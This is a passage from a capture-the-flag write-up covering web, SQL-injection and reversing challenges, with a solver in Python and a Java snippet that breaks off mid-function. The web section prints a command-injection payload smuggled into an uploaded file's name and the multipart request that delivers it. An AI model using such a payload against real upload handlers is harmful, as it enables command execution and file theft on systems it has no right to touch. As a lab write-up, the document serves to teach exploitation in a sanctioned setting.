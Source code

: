 After trial and error, we finally get the following payload:
```
';cat flag.txt 1>&2 ;wtf #.jpg
```
where `wtf` is a fictional command that I use to trigger the error, so that the previous command can be seen in the error.

I opened burpsuite, and sent a http request something like this:
```
...snip...
------WebKitFormBoundarytlzYSfmGob8mETRZ
Content-Disposition: form-data; name="file"; filename="';cat flag.txt 1>&2 ;wtf #.jpg"
Content-Type: image/jpeg

test
------WebKitFormBoundarytlzYSfmGob8mETRZ
...snip...
```

## squeal
I just copy one by one the sql injection in this articel and got the flag:
https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/

# reversing
## adding
```python
def solve(a = 213):
    x = 0
    y = 0
    for i in range(0,a+1):
        x = x * 2 + 2
        y += x * 20
        y += i * 10 + 10
    return y
print("flag{" + str(solve()) + "}")
```
## acts-nightmare
sorry ga lengkap soalnya ada yang manual 
```java
import java.util.*;

class Main {

    public static String stackAttack(String in) {
        Stack<Character> s = new Stack<>();
        for (char c: in.toCharArray())
            s.push(c);
        String res = "";
        int i = 3;
        while (!s.isEmpty()) {
            res += (char)(s.pop() + i);
            if (i == 0){
        i += 4;
      }
      i = (i - 1);
        }
        return res;
    }

    public static String recurses(String in, String out, int i) {
        if (in.isEmpty())
```